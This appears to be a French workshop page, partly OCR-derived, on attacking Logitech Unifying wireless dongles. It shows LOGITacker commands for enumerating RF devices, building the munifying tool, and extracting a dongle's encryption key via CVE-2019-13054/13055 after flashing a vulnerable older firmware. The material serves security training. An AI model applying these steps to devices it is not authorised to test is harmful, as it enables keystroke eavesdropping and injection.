 Questions:

> que fait la commande **pass_enum** ?
> **activ_enum** ?

```
$ screen /dev/ttyACM0 115200
$ screen -L /dev/ttyACM0 115200
LOGITacker (discover) $ devices
LOGITacker (discover) $ pass_enum <RF-address>
LOGITacker (discover) $ activ_enum <RF-address>
```

Si trop de log, désactivez les

```
$ log disable
$ log status
```


Extraction de la clé depuis le dongle : CVE-2019-13054 / CVE-2019-13055
--

> Extraction de la clé via un accès physique au dongle

* https://github.com/RoganDawes/munifying

Installation de **munifying**

```
$ sudo apt install golang
$ sudo apt-get -y install libusb-1.0-0 libusb-1.0-0-dev
$ cd ~/Workshop
$ git clone https://github.com/RoganDawes/munifying
$ cd munifying/
$ go build
```

```
$ sudo cp -rp ./munifying /usr/bin
$ munifying
```

Extraction de la clé du dongle (dongle du K400Plus, il faut attacher le dongle à la VM Ubuntu 20.04)

```
$ sudo munyfying info
```

La cle n'a pu etre extraite, il faut downgrader le firmware par un firmware vulnérable afin de restaurer l'accès à la clé (regarder les changelog pour identifier une version de firmware vulnéable)

```
$ cd ~/Workshop
$ git clone https://github.com/Logitech/fw_updates
$ cd fw_updates/RQR24/RQR24.07
$ sudo munifying flash -f RQR24.07_B0030.shex
$ sudo munifying info
```
